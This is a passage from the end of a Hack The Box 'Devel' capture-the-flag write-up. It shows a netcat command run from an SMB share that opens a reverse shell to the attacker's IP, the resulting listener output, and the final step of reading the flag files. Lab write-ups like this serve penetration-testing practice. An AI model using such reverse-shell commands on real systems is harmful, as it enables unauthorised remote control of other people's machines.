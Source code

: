 In the Windows shell:
```powershell
\\10.10.14.22\share\nc.exe -e cmd.exe 10.10.14.22 4444
```

Back to the new listener:
```powershell
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49191.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

Now we have a 'pure' netcat reverse shell.  Executing the exploit again,

![System Get!](images/ctf/htb/devel/get_system.png)

My theory appears to have been correct!  From here, it is trivially easy to locate and read from the flag files.

![Both 32 bytes long, the length of an MD5 hash](images/ctf/htb/devel/list_flags.png)

This concludes the Devel writeup, and any further content is expanding on the above.
